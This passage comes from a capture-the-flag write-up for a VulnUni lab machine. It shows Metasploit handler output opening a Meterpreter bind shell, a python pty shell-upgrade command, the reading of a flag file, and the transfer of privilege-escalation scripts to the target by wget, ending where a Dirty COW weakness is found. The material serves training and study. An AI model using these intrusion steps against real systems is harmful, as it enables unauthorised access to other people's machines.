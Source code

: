 I set the necessary LPORT, LHOST, RHOST, and payload options. Before I launched the handler, I browsed the payload on the target website to initiate the bind shell. Once the payload loaded, I ran the handler and received the shell.

```bash
root@kali$ msf5 >

msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.8.132:4448
[*] Sending stage (38288 bytes) to 192.168.8.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.8.132:4448) at 2020-05-12 00:43:47 -0400
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni8.png">
    </div>
</div>
<div class="caption">
    Receiving a shell on the metasploit multi/handler 
</div>    

I spent some time running through meterpreter enumeration scripts to gather more details on the target. Once I gathered enough information, I dropped into a shell to run some linux privilege escalations scripts. Using the shell command, I dropped into a low interactive shell. To upgrade, I ran the following exports and used a simple python script to open up a bash shell.

```bash
root@kali$ meterpreter > shell
Process 2181 created.
Channel 1 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/root@kali$
```

With a better shell, I did some manual navigating on the target and came across a flag in the vulnuni/home directory.

```bash
www-data@vulnuni$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop
Documents  Music      Public    Videos     flag.txt
www-data@vulnuni:/home/vulnuniwww-data@vulnuni$ cat flag.txt
cat flag.txt
68fc668278d9b0d6c3b9dc100bee181e
```  

Next, I opened up a webserver on my Kali linux machine to easily transfer some privilege escalation scripts to the target. I copied these scripts from my redteam-apache-toolkit project to my webserver at /var/www/html . I used wget on the target to transfer the scripts into the /tmp folder. One of the privilege escalation/ enumeration scripts I ran was BeRoot. The output showed that this target was vulnerable to the dirty cow linux kernel privilege escalation exploit.
